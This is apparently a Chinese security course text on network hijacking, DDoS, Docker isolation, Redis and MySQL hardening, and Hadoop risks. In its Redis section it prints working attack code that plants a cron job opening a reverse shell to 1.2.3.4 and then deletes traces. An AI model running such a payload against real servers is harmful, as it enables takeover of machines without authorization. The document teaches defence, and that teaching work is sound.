那“强制门户”在**公司内部是怎么应用的呢**？一般在连入内网后，员工还需要通过公司邮箱和密码，进行一次额外的验证。这样一来，公司就能够知道连入内网的到底是哪一名员工了。

说完了无线网络中的认证和加密，我们再看一下“劫持”的问题。在无线网络中，“劫持”的主要方式是，**伪造热点**。 

伪造热点的实现，主要依赖的就是现在设备的**自动连网功能**。简单来说，就是只要你的设备曾经连入过某一个热点，设备就会**记住这个热点的 ID 和密码**，下次如果设备再检测到这个热点 ID，就会尝试自动连接。

而黑客也可以利用自动连网的功能发起攻击。黑客只需要**伪造出来一个相同的热点 ID**，就可以诱导用户的设备连入黑客的热点，从而“劫持”流量。避免伪造热点的方法也很简单，就是对办公网络中的未知热点进行扫描。

所以，总结一下，在无线网的安全中，我们需要关注这 3 个点： 

- 是否使用了安全的协议，也就是 WPA2；
- 是否有认证技术，也就是强制门户；
- 是否有未知的热点出现在办公环境中。 


#### 有线网络安全

区别于无线网络，有线网络不存在认证和加密的问题。这个很好理解，因为有线网是**通过网线来进行物理接入的**。换一句话说，只要运维人员给服务器插上了网线，就说明运维人员授权这台服务器接入内网了。而且，一根网线只能将一台设备连入网络，不存在网线共享。所以，不需要考虑加密的问题。因此，我们在有线网络中，主要考虑的问题就是“劫持”。

所谓“劫持”，其实就是误导服务器将请求发送到黑客的设备上去。在无线网中，服务器实际上是向连接的热点发送请求，因此，我们可以通过伪造热点来进行误导。那在有线网中，服务器又会向哪里发送请求呢？

在网络协议中，目标地址主要通过 MAC 地址和 IP 地址来确定。**MAC 地址和 IP 地址分别是基于ARP 协议和DNS 协议来进行寻址的**。因为 ARP 和 DNS 都是早期的网络协议，所以安全性较低。因此黑客可以轻易地发出伪造的 ARP 包和 DNS 包，从而“欺骗”目标设备将数据包发送到黑客的设备上，实现流量“劫持”的功能。

为了帮助你理解这个过程，我把 **ARP“劫持”**的过程总结成了一张图。从这张图中，我们能看到，服务器 A 想要向服务器 B 发起请求，但是黑客通过发送伪造的 ARP 包误导 A说：“10.0.0.2 的 MAC 地址是 3:3:3:3”。因为 ARP 没有进行认证，所以 A 会无条件相信黑客的说法。那么，当 A 想要向 B 发送请求的时候，MAC 地址会设定成黑客的 3:3:3:3，所以请求最终就发送到了黑客的服务器上。DNS“劫持”的原理，和这个比较类似，也是黑客误导服务器，让服务器错认黑客的 IP 为某个域名的 IP。 


那该如何避免有线网络中的“劫持”呢？有两种方法：

- 第一种方法是**对网络进行更合理地划分**，避免黑客进入敏感的内网区域中；
- 第二种方法就是**在网络中进行定期地检测**。

为什么要定期地检测呢？这是因为，通过伪造 ARP 和 DNS 包发起的流量“劫持”发生在内网中，往往不需要通过防火墙等网络设备，所以难以被检测出来。因此，我们需要在网络中进行定期地检测，发掘异常的请求路径（如某个服务器将请求发送到了未知的设备），尽早发现“劫持”行为。


### 如何理解 DDoS 攻击

最后，我们再来介绍一种常见的内网攻击，**DDoS 攻击（Distributed Denial Of ServiceAttack，分布式拒绝服务攻击）**。DDoS 就是黑客由外网向公司服务发起大量的请求，从而打满网络带宽，让内网无法响应用户的正常请求。那么，DDoS 是如何产生的呢？我们又该如何防护呢？

说到这，我们先了解一下 **DoS（Denail f Service，拒绝服务）攻击**。知道了 DoS 攻击，DDoS 攻击就很好理解了。 

DoS 攻击主要有两种类型。

- 一种是通过漏洞进行攻击，使得服务或设备因为程序报错而宕机。比如针对 ICMP 协议的“死亡之 PING”，就是因为旧版本的 Windows 系统在处理超长的 ICMP 包时会报错死机。
- 另一种则是通过巨量的垃圾流量挤占网络带宽，使得网络设备无法接收或者发送合法的流量。

但是，黑客如果直接对目标网络发起 DoS 攻击，很容易就会被**溯源**出来。所以，黑客会通过大量的“**肉鸡”**（被黑客远程控制的机器）来向目标网络发起请求，隐藏自己的真实地址。这个过程就是 DDoS。

这里要补充一点，依靠**“肉鸡”代理**，黑客不仅可以增加自己被溯源的难度，还可以**放大（或者说增强）攻击的效果**。比如，当你请求一个网页时，你请求的数据实际上只有一个URL，但服务器却需要返回给你一整个网页。

近几年比较流行的**基于 Memcache 的 DDoS**，就是黑客向“肉鸡”的 Memcache 发送一个十几个字节的 GET 请求，通过在请求参数中进行配置，黑客可以让 Memcache 服务器将返回的结果发送到目标的服务器，而返回的结果能够达到几百 Kb 的数据量，放大倍数达到数万倍。这也是为什么黑客可以依靠几十个“肉鸡”代理，挤占目标网络几十 GB 的带宽。

DDoS 能对内网造成非常严重的影响，那我们该如何进行防护呢？目前来说，**DDoS 基本是不可防的**。因为只要你的应用还在正常地提供服务，那就需要接收外网的请求，因此没办法直接拒绝黑客向你发起的请求。哪怕你能够识别出这些恶意的请求，并且拒绝响应，这也只能避免 CPU 被耗尽，而带宽的资源还是会被占用。

所以，各类云服务厂商提供的 **DDoS 解决方案，基本都是依靠带宽扩容来进行保障的**。比如，阿里云可能会卖给你一个 40G 的**防 DDoS 服务**。只要 DDoS 的流量小于 40G，阿里云就会保障你服务的可用性。一旦超过，就会直接**关停**你的服务，避免资源浪费。 


### 总结

网络在为我们提供了便利的同时，也为黑客的攻击提供了一个方便的入口。除了在应用层针对 Web 漏洞进行攻击，黑客也会直接在网络层发起攻击。网络层的攻击以窃取流量为主，黑客利用监听、“劫持”等方式，窃取用户数据。在无线网中，黑客可以通过伪造热点来窃 取流量；在内网中，黑客可以通过 ARP 和 DNS“劫持”等来窃取流量。我们需要通过定期地检测内网，来发掘可能的攻击行为。

除此之外，黑客还会通过 DDoS 的方式，来破坏公司和应用网络的可用性，对正常服务产生影响。从理论上来说，DDoS 目前不可防，我们只能通过扩容带宽，来增加网络自身的耐受能力。

好了，我把这一讲的重点内容梳理了一个脑图。 


### 思考题

你可以观察一下，你们公司办公网的连入方式，思考一下，通过这种连入方式，公司能定位到你在办公的时候，都请求了哪些网页或者服务吗？ 


## Docker安全

当你在和同事讨论 Linux 系统安全的时候，同事表示，公司的服务都是通过 Docker 来进行容器化部署的。开发在操作中，并不会接触实际的 Linux 服务器，所以不会去关注 Linux 安全 。而且，因为容器是隔离的，就算容器被黑客攻击了，也只是容器内部受到影响，对宿主的 Linux 系统和网络都不会产生太大影响。

事实上，我知道很多人都有这种想法。但是，你在学习了安全专栏之后，可以试着思考一下，开发使用了 Docker 就一定安全吗？真的可以不用考虑安全问题了吗？ 

以防你对 Doker 还不是很了解，在解决这些问题之前，我先来解释一下这节课会涉及的 3个概念，帮你扫清概念障碍。 

- Docker 服务：Docker 所提供的功能以及在宿主机 Linux 中的 Docker 进程。
- Docker 镜像：通过 Dockerfile 构建出来的 Docker 镜像。
- Docker 容器：实际运行的 Docker 容器，通常来说，一个 Docker 镜像会生成多个Docker 容器。Docker 容器运行于 Docker 服务之上。 


### Docker 服务安全

我们首先来看 Docker 服务的安全性。Docker 服务本身需要关注的安全性就是：**隔离**。如果黑客在控制了容器之后，能够成功对宿主机产生影响，就说明黑客突破了 Docker 服务的隔离保护，也就是我们所说的“**Docker 逃逸**”。

那么，Docker 服务是如何对容器进行隔离，来防止“Docker 逃逸”的呢？接下来，我就介绍一下这 3 个关键的隔离机制：Namespace 机制、Capabilities 机制和 CGroups 机制。

#### Namespace 机制

我们知道，Docker 之所以广泛流行，是因为它提供了一种轻量化的隔离环境，也就是容器。

下面，我们重点解释一下**“轻量化”和“隔离”**这两个词。

首先是轻量化。怎么理解轻量化呢？我们可以对比虚拟机来进行理解。虚拟机是自己创造了一个虚拟内核，让这个虚拟内核去和虚拟机的进程进行沟通，然后虚拟内核再和真实的 Linux 内核进行沟通。而 Docker提供的容器，简化了这个沟通过程，让 **Docker 中的进程直接和 Linux 内核进行沟通**。 


第二个词是隔离。也就是说，Docker 提供的容器环境是和 Linux 内核隔离的。想要实现这种隔离，就需要用到 Namespace 机制了。所以，这里我先给你简单解释一下什么是Namespace 机制。

**Namespace 是 Linux 提供的一种标签机制，Linux 内核会对不同 Namespace 之间的进程做隔离，避免不同的进程之间互相产生影响。**所以，Docker 服务会为每一个 Docker 容器创建一个单独的 Namespace 空间。 这样一来，不同容器之间、容器和系统之间，都是不同的 Namespace，也就实现了隔离。

这种基于 Namespace 的隔离我一般叫它“**伪隔离**”。因为通过 Namespace 进行的**隔离并不彻底**。为啥这么说呢？Docker 容器在隔离的环境中，仍然需要使用一些底层的 Linux进程和设备支持。比如，你在 Docker 容器中仍然需要使用鼠标、键盘等输入输出设备，那么容器就必须挂载 Linux 系统中的 /sys 来获得对应的驱动和配置信息。也就是说，你在**Docker 中看到的 /sys 目录，实际就是 Linux 系统中的 /sys 目录**。类似的，还有一些没有被 Namespace 隔离开的目录和模块，包括以下这些内容： 

- 部分的进程目录 /proc/…
- 内存映像 /dev/mem
- 系统设备 /dev/sd*
- Linux 内核模块 

换一句话说，因为容器和宿主机需要共同使用一些服务（比如容器和宿主机使用的是同一个鼠标），所以上面的这些目录和模块，对于容器和宿主机来说，其实是**共享**的。从理论上来说，如果你在 Docker 容器中修改了这些目录，那么宿主机当中也会同步相应的修改结果。


#### Capabilities 机制

我们刚刚说了，Namespace 的伪隔离机制让容器和宿主机共享部分目录。那么，这是不是也意味着，Docker 容器可以通过这些目录来影响宿主机，从而实现“Docker 逃逸”呢？为了避免这种情况，Docker 服务使用了 Capabilities 机制，来限制容器的操作。

**Capabilities 提供了更细粒度的授权机制，它定义了主体能够进行的某一类操作**。比如，一个 Web 服务需要绑定 80 端口，但 80 端口的绑定是需要 ROOT 权限的。为了**防止 ROOT权限滥用，Docker 会通过 Capabilities，给予这个 Web 服务 net_bind_service 这个权限（允许绑定到小于 1024 的端口）**。同样地，Docker 对容器的 ROOT 也加了很多默认的限制，比如： 

- 拒绝所有的挂载操作；
- 拒绝部分文件的操作，比如修改文件所有者；
- 拒绝内核模块加载。 

这里有一点需要你注意，Capabilities 对容器可进行操作的**限制程度很难把控**。这是因为，过松会导致 Docker 容器影响宿主机系统，让 Docker 隔离失效；过严会让容器和容器内的服务功能受限，无法正常运行。

所以，在默认情况下，Docker 会采用**白名单机制**（白名单列表你可以在 Docker 源码中查看）进行限制，即只允许 Docker 容器拥有几个默认的能力。那有了白名单限制，即使黑客成功拿到了容器中的 ROOT 权限，能够造成的影响也相对较小。所以我们常说，“Docker逃逸”是一件不容易的事情。


#### CGroups 机制

好了，现在你应该知道 Docker 服务本身是如何防止“Docker 逃逸”的了。作为一个容器，Docker 显然不能过多地占用宿主机资源，不然对宿主机和自身的可用性都会产生影响。那 Docker 是如何实现资源限制的呢？ 

Docker 服务可以利用 **CGroups 机制来实现对容器中内存、CPU 和 IO 等的限制**。比如，通过下面的命令，我们就可以限制 Docker 容器只使用 2 个 CPU 和 100MB 的内存来运行了。 

```sh
docker run -it --cpus=2 --memory="100m" ubuntu:latest /bin/bash
```

所以，当一个宿主机中运行了多个 Docker 容器的时候，我们可以通过 CGroups，给每一个容器弹性地分配 CPU 资源。同样地，这个限制既不能过松，过松会导致某一个 Docker容器耗尽宿主机资源，也不能过严，过严会使得容器内的服务得不到足够的资源支持。这都需要我们自己经过慎重考量来进行配置，没有默认的安全机制可以辅助我们。

现在，你应该已经了解 Docker 服务中的 3 个主要机制了。这里，我把这 3 个主要机制的特点总结成了一张表格，帮助你加深理解。 


### Docker 守护进程

想要运行 Docker 镜像，就必须先启动 Docker 的 **Daemon 守护进程**。而启动这个守护进程需要 ROOT 权限。因此，守护进程本身如果出现漏洞，就会给黑客提供一个权限提升的入口。那通过这个守护进程，黑客能进行哪些操作呢？ 

首先，作为守护进程，**Daemon 具备操控 Docker 容器的全部权限**。这也就意味着，黑客可以任意地上线和下线容器、运行黑客自己的镜像、篡改已有镜像的配置等。这么说可能不够直观，我来详细解释一下。黑客通过守护进程，可以**将宿主机的根目录共享到镜像中**，这样一来，镜像就可以对宿主机的目录进行任意地修改了。另外，除了影响正常的线上容器，黑客还能够**通过简单的 docker exec 命令获取容器环境中的 Shell**，从而执行任意命令了。

那么，黑客怎么才能控制 Daemon 守护进程呢？最简单的方法当然是直接进入宿主机，通过 Docker 命令进行交互。但如果黑客已经进入宿主机，还去操控容器，就是多此一举了。所以，黑客主要是**通过远程 API，来对 Docker 守护进程发起攻击**。

守护进程提供的 API 接口，是为了方便用户去做一些自动化的工具，来操控 Docker 容器。而在默认情况下，这个 API 接口不需要进行认证。你可以尝试探测一下，你的公司内外网中，是否存在开放的 **2375 端口（守护进程 API 默认监听的端口）**。如果存在的话，那么你基本上就能够控制这台服务器的 Docker 守护进程了。

为了避免这种无认证的情况发生，Docker 提供了**证书的方式来进行认证**。开启 API 接口的命令如下所示： 

```sh
dockerd --tlsverify --tlscacert=ca.pem --tlscert=server-cert.pem --tlskey=server-key.pem -H=0.0.0.0:2376
```

通过以上命令，我们就能够在宿主机开启远程 API 接口。在客户端中，只需要提供相应的证书信息，就能够完成经过认证的 API 接口调用了。 

```sh
curl https://127.0.0.1:2376/images/json --cert cert.pem --key key.pem --cacert ca.pem
```

那通过这样的配置，我们就能解决了 API 接口的认证问题，也就提升了 Docker 守护进程的安全性。


### Docker 镜像安全 

对于 Docker 镜像来说，它本身就是一个模拟的操作系统，自然也会存在操作系统中的各类安全威胁和漏洞。但是，由于一个 Docker 镜像，一般只会运行某一种服务，也就相当于一个操作系统中只有一个用户。因此，Docker 镜像面临的安全威胁也会小很多。

接下来，我就为你详细讲解两种保证 Docker 镜像安全的方式，分别是“使用最精简的镜像”和“最小权限原则”。

#### 使用最精简的镜像

前面我们讲了 Docker 镜像的概念，我们知道，Docker 镜像是通过 Dockerfile 来构建的。而 Dockerfile 构建的第一句是 FROM ***。以 Node.js 的环境为例，你的基础镜像可能是 node，那么 Dockerfile 的第一行应该是 FROM node。 

```sh
FROM node
COPY . ./
EXPOSE 8080
CMD [“node”, “index.js”]
```

这个**基础的 node 镜像**实际包含了一个完整的操作系统，但是，在实际应用中，有大部分的系统功能，我们是用不到的。而这些**用不到的系统功能**，却正好为黑客提供了可乘之机。

Snyk 在 2019 年的 Docker 漏洞统计报告称，最热门的 10 个 Docker 基础镜像，包含的已知系统漏洞，最少的有 30 个，最多的有 580 个。 


这是非常惊人的。通过一句简单的 FROM node，就能让你的 Docker 镜像中引入 580 个系统漏洞。那我们该如何避免引入漏洞呢？这个时候，我们就需要使用精简版的基础镜像了。一般来说，**精简版的 Docker 镜像标签都会带有 slim 或者 alpine**。

比如说，如果你采用 node:10-slim，那么漏洞数会降低到 71 个。如果使用 node:10-alpine，那么已知的漏洞数会降为 0。之所以会发生这种现象，是因为使用精简版的基础镜像，可以**去除大部分无用的系统功能和依赖库**，所以，存在于这些功能中的漏洞自然也就被剔除了。

因此，对于 Docker 来说，通过使用精简的基础镜像，去除一些无用的系统功能，既能够降低最终镜像的体积，又能够降低安全风险，何乐而不为呢？


#### Docker 中的最小权限原则

除此之外，我们在 Linux 操作系统中提到的最小权限原则，在 Docker 镜像中同样适用。

这是因为，在默认情况下，容器内的进程是都以 ROOT 权限启动的。而 Docker 又是伪隔离，所以，容器就和宿主机拥有一致的 ROOT 权限了。虽然 Docker 通过 Capabilities，对容器内的 ROOT 能力进行了限制。但是，使用 ROOT 权限去运行一个普通的服务很不合适。为此，我们可以**通过 USER 关键词，来使用一个低权限的用户运行服务**。 

以 Node.js 为例，在 node 的基础镜像中，默认创建了 node 这么一个具备较小权限的用户。因此，我们可以在 Dockerfile 中，加入一行 USER node 来使用这个最小权限用户。 

```sh
FROM node:10-alpine
...
USER node
CMD [“node”, “index.js”]
```

当然，如果有的基础镜像本身不提供额外的用户，你就需要自己创建一个了。

以 ubuntu 为例，我们可以通过 groupadd 和 useradd，创建一个 node 用户，这个用户没有密码、没有 home 目录、也没有 shell，就是一个最小权限用户。Dockerfile 的内容如下： 

```sh
FROM ubuntu
RUN groupadd -r node && useradd -r -s /bin/false -g node node
...
USER node
CMD node index.js
```

现在，你应该已经知道 Docker 镜像的两种安全防护方法了，我来简单总结一下。第一个是通过使用最精简的基础镜像，来删减 Docker 镜像中不必要的功能，从而降低出现漏洞的概率。第二个则是采取最小权限原则，以低权限用户来执行服务，限制黑客的能力。


### 总结

今天，我主要通过 Docker 服务、Docker 守护进程和 Docker 镜像这三个方面，带你学习Docker 的安全性。

在 Docker 服务中，主要是利用 Namespace、Capabilities 和 CGroups 机制，来对Docker 容器进行各种隔离和限制；在 Docker 守护进程中，我们通过给远程 API 加上认证功能来保证安全性；在 Docker 镜像中，我们主要是通过最小镜像和最小权限的原则，去提升镜像本身的安全性。 

在实际对 Docker 进行安全防护的过程中，我们也可以采取各类针对 **Docker 的扫描工具**，来发现问题。比如 Clair，它会对你的镜像进行静态的扫描分析，并和漏洞库进行比对，从而发现镜像中可能存在的安全漏洞。

以 Docker 为代表的容器技术，可以说是现在应用开发中最常见的技术了。很多开发人员，现在甚至不用使用原始的 Linux 系统，直接基于 Docker 进行开发就好了。因此，我们在开发应用的过程中，要时刻关注 Docker 的安全性。

好了，我把这一讲的重点内容梳理了一个脑图。 


### 思考题

“容器上云”是目前普遍的技术趋势，你是否有使用过一些容器云的产品？可以研究一下，在容器云中，云平台给容器设置了哪些安全限制。 


## 数据库安全：Redis & MySQL

说到数据库，你肯定会说：“数据库是我最熟悉的工具了。利用它，我能够设计复杂的表结构、写出炫酷的 SQL 语句、优化高并发场景下的读写性能。”当然，我们的日常工作离不开数据库的使用。而且，数据库中储存的大量机密信息，对于公司和用户都至关重要。

那关于数据库的安全你知道多少呢？你知道数据库是如何进行认证的吗？使用数据库交换数据的过程是安全的吗？假如黑客连入了数据库，又会发生什么呢？

今天，我就以两种比较常见的数据库 Redis 和 MySQL 为例，来和你一起探讨数据库的安全。 

### Redis 安全

我们首先来看 Redis。我们都知道，Redis 是一个高性能的 KV 结构的数据库。Redis 的设计初衷是在可信的环境中，提供高性能的数据库服务。因此，Redis 在设计上没有过多地考虑安全性，甚至可以说它刻意地牺牲了一定的安全性，来获取更高的性能。

那在安全性不高的情况下，黑客连入 Redis 能做什么呢？最直接的，黑客能够**任意修改Redis 中的数据**。比如，通过一个简单 FLUSHALL 命令，黑客就能够清空整个 Redis 的数据了。

复杂一些的，黑客还可以发起**权限提升**，通过 Redis 在服务器上执行命令，从而控制整个服务器。但是，Redis 本身不提供执行命令的功能，那么黑客是如何让 Redis 执行命令的呢？

#### Redis 执行命令

我们一起来看一下具体的代码流程。 

```sh
r = redis.Redis(host=10.0.0.1, port=6379, db=0, socket_timeout=10)
payload = '\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/1.2.3.4/8080 0>&1\n\n'
path = '/var/spool/cron'
name = 'root'
key = 'payload'
r.set(key, payload)
r.config_set('dir', path)
r.config_set('dbfilename', name)
r.save()
r.delete(key) # 清除痕迹
r.config_set('dir', '/tmp')
```

针对这个过程，我来详细解释一下，你可以结合代码来看。 

- 黑客连入 Redis。
- 黑客写入一个任意的 Key，对应的 Value 是想要执行的命令，并按照 Crontab 的格式进行拼接。代码如下： 

```sh
*/1* * * * /bin/bash -i >& /dev/tcp/1.2.3.4/80800>&1
```

- 黑客调用 config_set 方法，就是通过 Redis 的 CONFIG 命令，将 Redis 数据持久化的目录修改成 /var/spool/cron。
- 黑客调用 save 方法，通过 Redis 的 SAVE 命令，发起 Redis 的数据持久化功能。最终，Redis 将数据写入到 /var/spool/cron 中。写入的文件效果如下： 


- Crontab 对于无法解析的数据会直接跳过，因此，开头和结尾的乱码不会影响 Crontab 的执行。最终，Crontab 会执行到 Value 中对应的命令 。

这样一来，黑客就“聪明”地利用 Redis 保存文件的功能，修改了 Crontab，然后利用Crontab 执行了命令。


#### Redis 进行安全防护

那么，我们该如何对 Redis 进行安全防护呢？这里就需要提到我们前面讲过的**“黄金法则”和“最小权限原则”**了。

首先，从认证上来说，Redis 提供了最简单的**密码认证功能**。在 Redis 的配置文件中，只要增加一行 requirepass 123456，我们就能够为 Redis 设置一个密码了。但是，这里有两点需要你注意。 

- Redis 的性能很高，理论上黑客能够以每秒几十万次的速度来**暴力猜测密码**。因此，你必须设置一个足够强的密码。我比较推荐**随机生成一个 32 位的“数字加字母”的密码**。而且 Redis 的密码直接保存在配置文件当中，你并不需要记忆它，需要的时候直接查看就好了。
- Redis 是为了高性能而设计的。之所以 Redis 默认不配置密码，就是因为**密码会影响性能**。按照我之前的测试，加上密码之后，Redis 的整体性能会下降 20% 左右。这也是很多开发和运维，明明知道 Redis 有安全风险，仍然保持无密码状态的原因。所以，是否给 Redis 设置密码，还需要你根据实际的情况进行权衡。 

其次是进行授权。尽管 Redis 本身不提供授权机制，但是我们仍然可以**通过“重命名”来间接地实现授权功能**。我们可以在 Redis 的配置文件中加入 rename-command CONFIGpUVEYEvdaGH2eAHmNFcDh8Qf9vOej4Ho，就可以将 CONFIG 功能的关键词，变成一个随机的字符串，黑客不知道这个字符串，就无法执行 CONFIG 功能了。而且，你仍然可以通过新的命令，来正常的使用 CONFIG 功能，不会对你的正常操作产生任何影响。现在，你应该已经知道在认证和授权上，我们能使用的防护手段了。那在审计上，因为Redis 只提供了基本的日志功能（日志等级分为：Debug、Verbose、Notice 和Warning），实用信息不多，也就没有太多的应用价值。

除了认证和授权，如果你还想要**对 Redis 中的数据进行加密**，那你只能够在客户端中去集成相应的功能，因为 Redis 本身不提供任何加密的功能和服务。

最后，我们还要**避免使用 ROOT 权限去启动 Redis**，这就需要用到“最小权限原则”了。在前面命令执行的例子中，黑客是通过 Redis 的保存功能，将命令“写入 Crontab”来实现的命令执行功能。而“写入 Crontab”这个操作，其实是需要 ROOT 权限的。因此，我们以一个低权限的用户（比如 nobody）身份来启动 Redis，就能够降低黑客连入 Redis带来的影响了。当然，Redis 本身也需要保存日志和持久化数据，所以，它仍然需要写入日志文件的权限（小于 ROOT 权限）来保证正常运行。

总结来说，Redis 是一个极度看重性能的数据库，为了性能舍弃掉了部分的安全功能。我们可以通过“增加密码”“使用最小权限原则”和“授权”的方式，在一定程度上提升 Redis的安全性。但是，这些防护手段更多的是一种缓解机制，为了保证安全性，我们最好是只在可信的网络中使用 Redis。 


### MySQL 安全

讲到这里，你现在应该也能总结出，黑客攻击数据库的主要方式，除了执行各种命令对数据库中的数据进行“增删改查”，就是在连入数据库后，通过各种手段实现命令执行，最终控制整个服务器。

那在 MySQL 中，黑客的攻击方式又有什么不同呢？

因为 MySQL 的功能十分强大，自身就提供了和**本地文件交互的功能**。所以，通过 LOAD DATA INFILE，MySQL 可以读取服务器的本地文件；通过 SELECT … INTO DUMPFILE， MySQL 也能够将数据写入到本地文件中。因此，在黑客连入 MySQL 之后，通过**读文件**的功能，黑客就能够对服务器的任意文件进行读取，比如敏感的 /etc/passwd 或者应用的源代码等；通过**写文件**的功能，则可以仿照 Redis 修改 Crontab 的原理，实现命令执行的功能。

相比于 Redis，MySQL 是一个比较成熟的数据库工具，自身的安全性就很高，所以通过**正确地配置 MySQL 的安全选项**，我们就能够获得较高的安全保障。

那么，MySQL 在黄金法则和加密上，分别提供了哪些功能呢？

MySQL 提供了多用户的认证体系，它将**用户的相关信息（认证信息、权限信息）都存储在了 mysql.user 这个系统**表中。利用这个系统表，MySQL 可以通过增删改查操作，来定义和管理用户的认证信息、权限列表等。

#### MySQL 密码管理的机制

除此之外，在认证上，MySQL 还提供了比较完善的**密码管理功能**，它们分别是： 

- 密码过期，强制用户定期修改密码；
- 密码重用限制，避免用户使用旧的密码；
- 密码强度评估，强制用户使用强密码；
- 密码失败保护，当用户出现太多密码错误的尝试后锁定账户。 

#### MySQL 中的授权机制

那么，通过这些密码管理的机制，你就能够拥有一个相对安全的认证体系了。在多用户的认证体系中，授权是必不可少的。那 MySQL 中的**授权机制**是怎样的呢？ 

```sh
GRANT ALL PRIVILEGES ON db.table TO user@"127.0.0.1" IDENTIFIED BY "password"
```

我们通过修改权限的 GRANT 命令来具体分析一下，MySQL 授权机制中的主体、客体和请求。 

- 主体（user@“127.0.0.1” IDENTIFIED BY “password”）：MySQL 的主体是通过用户名、IP 和密码这三个信息组合起来进行标记的。 
- 客体（db.table）：MySQL 的客体是数据库和表。
- 请求（ALL PRIVILEGES）：MySQL 将请求的类型定义成了特权（PRIVILEGES）。常见的特权有 INSERT、DELETE 等增删改查操作（如果你想要了解其他更细粒度的特权，可以在官方文档中进行查看）。 

除此之外，MySQL 也定义了 ROLE 的概念，你可以基于这个功能，去实现 **role-BAC 机制**。

虽然和 Redis 一样，MySQL 本身也不提供审计功能。但是，MySQL 可以通过**第三方插件**，来**提供审计的服务**。比如 McAfee 提供的 mysql-audit以及 MariaDB AuditPlugin。这些插件能够自动收集必要的 MySQL 操作信息，并推送到你的 ELK 等日志集群中，方便你进行持续的审计操作。


#### MySQL 的 SSL加密

在加密方面，MySQL 既提供传输过程中 SSL（Security Socket Layer）加密，也提供存储过程中硬盘加密。

我们首先来看 **MySQL 的 SSL 加密功能**。开启 SSL 功能，需要在配置文件中配置如下命令： 

```sh
[mysqld]
ssl-ca=ca.pem
ssl-cert=server-cert.pem
ssl-key=server-key.pem
```

但是，这些配置并不能强制客户端使用 SSL 连接。想要杜绝全部非安全连接的话，我们可以在**配置文件中添加 require_secure_transport=ON，来进行强制限制**。


#### MySQL 的硬盘加密功能

接着，我们来看，MySQL 中提供的**硬盘加密**功能。硬盘加密过程主要涉及**两个密钥，一个主密钥和一个表密钥**。表密钥由 MySQL 随机生成，通过主密钥进行加密后，存储在表头信息中。因此，每一个表格都拥有不同的密钥。

MySQL 的加密功能是由 **keyring_file 这个插件**来提供的。需要注意的是，当 keyring_file第一次启动的时候，它会生成一个主密钥文件在当前的系统中。你一定要备份这个密钥文 件，因为它一旦丢失，数据库中的全部数据，都将因为无法解密而丢失。


#### MySQL 最小权限原则

现在，你应该了解了，MySQL 在黄金法则上都提供了哪些功能。接下来，我们再来看“最小权限原则”。

和 Redis 一样，MySQL 也需要**避免以 ROOT 权限启动**。不一样的是，MySQL 默认提供了这样的能力，当我们在 Linux 中通过 mysqld 来启动 MySQL 进程的时候，mysqld 会自动的创建一个具备最小权限的 mysql 用户，并赋予这个用户对应日志文件的权限，保证MySQL 拥有必要的最小权限。

总之，MySQL 是一个非常成熟的数据库工具，它提供了完整的安全功能。通过对认证、授权、审计和加密功能的正确配置，你就能够迅速提升 MySQL 的整体安全性。


### 总结 

今天，我们以 Redis 和 MySQL 这两种比较典型的数据库为例，对它们的安全性，以及攻破后能产生的危害进行了分析。在这里，我把安全防护的关键内容总结了一张表格。 


通过对这两种数据库的分析，我们知道，数据库面临的威胁不止存在于数据本身，也会影响到数据库所在的服务器。在数据库本身的安全防护上，我们可以通过对“黄金法则”的运用，在认证、授权、审计和加密方面，为其设置一定的保护能力。同时，为了避免数据库对服务器的衍生影响，我们也应该落实“最小权限原则”， 避免以 ROOT 权限去启动数据库服务。

当然，目前成熟的数据库产品肯定不止这两种。但是，我希望通过对这两种数据库的安全分析，让你掌握数据库安全的主要内容，在实际工作中，能够做到活学活用，自主去分析你用到的数据库。

### 思考题

在实际工作，除了 Redis 和 MySQL，你还会用到哪些数据库？你可以思考一下，这些数据库有哪些安全事项呢？你可以按照我给出的表格，试着总结出相关的安全防护手段。


## 分布式安全：Hadoop

如今，大数据处理已经成为了每一个应用和公司都必备的业务。因此，除了数据库之外，分布式的平台和框架也是开发人员最熟悉的工具之一。

说到分布式，就不得不提到 Hadoop。Hadoop 可以说是一个划时代的分布式框架，底层的 **HDFS** 提供了大数据存储的文件系统支持，**YARN** 提供了大数据运算的资源调度能力，而 **MapReduce** 的计算框架，更是彻底革新了数据运算的方式。基于此，Hadoop 又衍生了一系列的**分布式工具和数据处理生态圈**。 

可以说，Hadoop 是分布式框架的根基。所以，我们今天就以 Hadoop 为例，探讨一下分布式框架的安全性。

对于开发人员来说，优化分布式环境下的数据处理性能，完成各种高复杂度的运算任务，都不在话下。但是，说到分布式环境中的安全，你又知道多少呢？

现在的分布式环境中，动辄就是上百台的分布式节点，海量的数据在这些节点中不停地流动，你能够确定所有的节点都是可信的吗？如果某一个节点被黑客控制了，又会发生什么呢？

### 针对 Hadoop 的攻击方式有哪些

Hadoop 最开始是设计**工作在可信的网络中**的，所以，Hadoop 的默认安全防护机制并不强。这也就使得 Hadoop 中的数据安全得不到保障。而 Hadoop 作为大数据的处理框架，可以说公司大部分的数据都会落到其中进行处理。因此，Hadoop 中数据 CIA 的重要性，甚至比普通的数据库更高。

那么，黑客可以通过哪些方式来攻击 Hadoop 呢？

- 首先，最直接也是最常见的，也就是在默认情况下，Hadoop 没有集成认证和授权功能，任何人都可以**通过客户端的形式连入到 Hadoop 集群中**。所以，黑客可以任意地增删改查HDFS 中的数据，也可以任意地提交 Hadoop 任务，来进行自己想要的数据操作。
- 除了直接的越权访问，黑客也可以通过一些**间接的方式**，来窃取 Hadoop 中的数据。比如，Hadoop 节点间的数据传输默认都是明文的。因此，即使黑客无法连入到 Hadoop 集群中，它们也可以通过**控制交换机等网络设备**，同样能够获得很多的数据信息。
- 最后，因为 Hadoop 能够很好地支持节点的增加和删除操作。所以，黑客可以**以一个节点的身份加入到 Hadoop 集群中**。这样一来，数据就会自动流转到黑客的节点中。如果伪装的是具备调度功能的 NameNode，黑客还能够对整个 Hadoop 集群的资源调度进行干预和影响。


### Hadoop 自带的安全功能有哪些

现在，你应该知道了，黑客针对 Hadoop 的攻击一旦发生，就会造成非常大的危害。那我们该如何提高 Hadoop 的安全性呢？和数据库一样，我们还是分别从认证、授权、审计和加密这四个方面来看。

#### 黄金法则在 Hadoop 上如何应用

首先，我们来看，如何**给 Hadoop 加上认证的功能**。

目前，Hadoop 支持了**基于 Kerberos 协议的认证功能**，我们可以在配置文件中使用。

